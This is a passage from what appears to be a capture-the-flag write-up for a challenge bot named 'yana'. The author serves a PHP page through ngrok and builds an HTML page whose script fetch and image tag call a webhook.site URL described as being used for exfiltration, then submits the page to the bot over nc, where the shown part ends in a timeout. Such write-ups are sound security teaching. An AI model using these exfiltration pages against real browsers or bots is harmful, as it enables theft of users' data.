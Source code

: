 I started with a PHP page (yana.php) in my local humble apache, serving through ngrok.

```bash
$ ./ngrok http 80

ngrok by @inconshreveable
                                                                                                                                              
Session Status online                                                                                                          
Account        nhe@gmail.com (Plan: Free)                                                                         
Version        2.3.40                                                                                                          
Region         United States (us)                                                                                              
Web Interface  http://127.0.0.1:4040                                                                                           
Forwarding     http://2cd87fccf2d0.ngrok.io -> http://localhost:80                                                             
Forwarding     https://2cd87fccf2d0.ngrok.io -> http://localhost:80                                                            
                                                                                                                            
Connections    ttl     opn     rt1     rt5     p50     p90                                                                     
               0       0       0.00    0.00    0.00    0.00
```

Let's start with the basics: inserting a js fetch and a image link the [webhook.site](https://webhook.site), which we're using for request capture/exfiltration (Just enter the site and it'll give a URL to use). Let's see if the bot can send something to us.

```html
<html>
    <head>
        <script>
            fetch('https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/fetching', {'mode': 'no-cors'});
        </script>
    </head>
    <body>
        <img src="https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/bleh.png">
    </body>
</html>
```

And now we send our very dangerous URL to the bot and wait for the delivery.

```bash
$ nc yana-bot.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Please send me a URL to open.
https://2cd87fccf2d0.ngrok.io/yana.php
Loading page https://2cd87fccf2d0.ngrok.io/yana.php.
timeout
```
